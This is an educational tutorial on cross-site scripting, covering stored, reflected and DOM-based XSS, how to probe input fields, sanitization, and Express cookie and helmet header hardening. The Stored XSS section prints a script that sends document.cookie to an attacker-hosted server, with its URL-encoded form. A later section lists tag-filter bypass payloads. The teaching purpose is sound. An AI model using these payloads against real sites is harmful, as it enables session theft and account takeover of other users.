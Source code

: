 # Cross-Site Scripting (XSS) Attacks

Cross-Site Scripting (XSS) is a common web application vulnerability that occurs when a web application renders unsanitized input to the front end of an application. An attacker takes advantage of this vulnerability by injecting malicious code, generally in the form of JavaScript, through the browser. They can trick a benign website into executing this code for other users. This enables an attacker to steal information from another user’s client-side data, redirect a user to malicious pages, or take control of their browser!

We will walk through different types of such attacks: Stored XSS, Reflected XSS, and DOM-Based XSS.

## Stored XSS

A stored XSS vulnerability occurs when a web server stores an unsanitized user input and displays it to other users. In a worst-case scenario, an attacker can input a malicious script and store it to the vulnerable website, making the script run for all other users on that page.

![An image showing that in Stored XSS attacker an attacker creates a comment with code, the web server saves the comment, the user requests to see the comments, then the server sends the comment to the victim's browser where the code is executed.](./imgs/Cybersecurity_XSS_Stored_v2-03.svg)

Let’s walk through the example in the image above.

Let’s say a website has a poorly designed comment function where the backend does not sanitize user comments. It may be possible for an attacker to add dangerous JavaScript to their comment. Now, any time another user loads the page and the server displays the comment with the bad code to the HTML, that user’s browser will execute the JavaScript code. This is an example of a Stored XSS attack.

This effect makes Stored XSS attacks some of the most serious XSS attacks.

For example, an attacker could have a victim's session cookie sent to another server. If an attacker hosts their own server at, www.localhost:5000, they can inject code into that comment field in order to “infect” the site and run malicious code whenever someone requests to see the comments. Since comments are saved in a vulnerable site's database, this script is stored, and will be retrieved and run whenever a user accesses the comment section. One example could be, instead of writing a review, the attacker writes the following:

```html
<script>
  fetch(`http://localhost:5000?data=${document.cookie}`);
</script>
```

To store the comment in the vulnerable site's database, the attacker can use [encodeURIComponent](https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/encodeURIComponent) to parse the text and format it so it is passed as a query parameter to the backend.

> http://examplevulnerablesite.com/?newReview=%3Cscript%3Efetch%28%60http%3A%2F%2Flocalhost%3A5000%3Fdata%3D%24%....Fscript%3E

## Reflected XSS

Reflected XSS occurs when a user’s input is immediately returned back to the user. This return may come in the form of an error message, a popup, or a search term. In these instances, the malicious code is never stored by the server. Rather, it exists as a value in the URL or request.

Despite the bad code not being stored in the database and executed by all victims’ browsers, the attacker can use Reflected XSS to target certain users, forcing them to execute the malicious script. Take a look at the example below where an attacker tricks a user into clicking a script-injected link, set up to steal that user’s credentials!

![An image showing in Reflected XSS that an attacker sends a script injected link to the victim, the victim clicks on it, the victim's browser loads the legitimate site while also executing the malicious script, and then the malicious script sends the user's information to the attacker.](./imgs/Cybersecurity_XSS_Reflected_v2.svg)

## DOM-Based XSS

The DOM, short for Document Object Model, is used to help scripts and the underlying webpage interact. When user input is interpreted by the DOM, an attacker is able to inject malicious code there. These types of vulnerabilities do not cause any changes in how the server responds. Rather, these attacks are completely client-side.

For example, a web page may use client-side Javascript to customize a welcome page, displaying their name based on a value in the URL. Depending on how the Javascript runs, a DOM-Based XSS attack may be able to replace the name value with a malicious script. If a victim loaded the page with the attacker’s code, the vulnerable webpage may execute the code!

![An image with the following steps: 1) Attacker sends link containing malicious code, 2) Victim opens link, 3) Victim's browser sends request to server, 4) Server responds with page 5) Victim's browser loads vulnerable Javascript and executes the attacker's payload.](./imgs/Cybersecurity_XSS_DOM_v2.svg)

## Identifying XSS Vulnerabilities

Let’s look at how we can uncover XSS vulnerabilities in a web application.

As with any vulnerability, it is important that we investigate any potential input areas. When looking at the application, consider all possible fields. Comments, usernames, custom settings, and parameters all provide great starting points.

Once we have identified a potential injection point, we can begin testing various inputs to create a proof-of-concept payload (POC). A POC payload will demonstrate that an issue exists, without causing damage. The most basic POC payload is shown below.

```html
<script>
  alert(1);
</script>
```

If a web server is not properly sanitizing user input, this will return a pop-up box similar to the below image.

![This image shows "<script>alert(1)</script>" was injected into the URL which caused a Javascript alert to show up on the screen.](./imgs/alert.jpg)

If this payload does not work, that does not necessarily mean the system is secure. In fact, many systems will take a flawed approach to protection and block certain words. If a blocklist is in effect your request may be blocked, or your <script> tags could be removed. There are numerous other ways we can execute code, without ever using a <script> tag. Below are some potential workarounds that could be used by an attacker.

```html
<img src="X" onerror="alert(1);" />

<b onmouseover="alert(1)">click me!</b>

<body onload=alert('test1')>
```

## Sanitization

Sanitization is the process of removing/replacing problematic characters with safe versions. Depending on the backend language, there may or may not be built-in functions to aid in this process.

However, if these functions do not exist, we can generally succeed in preventing XSS attacks by removing characters such as <, >, ", =, and potentially dangerous keywords.

Rather than remove characters, we can also replace them with HTML-encoded versions of the characters. This allows us to retain the characters, but remove their capacity to affect the page’s HTML.

For example, the < character would be converted to the “<” string. The browser will render this string as the “<” character, but it will not interpret it as actual HTML, preventing the attack.

It is important to note, however, that depending on how the data is used, this type of escaping may not be enough. It’s important to consider all potential avenues for an attack.

There are also JavaScript packages like [sanitize-html](https://www.npmjs.com/package/sanitize-html) that help sanitizer user inputs!

## Securing Cookies and Headers

### Securing Cookies

An express server that uses express-session to store cookies has the properties httpOnly and secure to configure how to store and send cookies. Setting httpOnly and secure to true helps mitigate the risk of client-side script accessing the protected cookie.

In order to set up a cookie in an Express server, you can use the library express-session to set up a session and configure the application with specific properties pertaining to cookies:

```JavaScript
app.use(
  session({
    secret: "my-secret",
    resave: true,
    saveUninitialized: true,
    cookie: {
      httpOnly: true,
      secure: true
    },
  })
);
```

### Setting Security Headers

Moreover, we can include the helmet package to edit HTTP headers. Helmet.js is a collection of 15 Node modules that interface with Express. Each module provides configuration options for securing different HTTP headers. One of them being the contentSecurityPolicy which is an added layer of security that helps to detect and mitigate certain types of attacks. Fortunately, by just including this package in your express app, 11 of these modules (including the content security policy module) will be configured automatically.

You can use helmet by adding the following line of code:

```JavaScript
app.use(helmet());
```
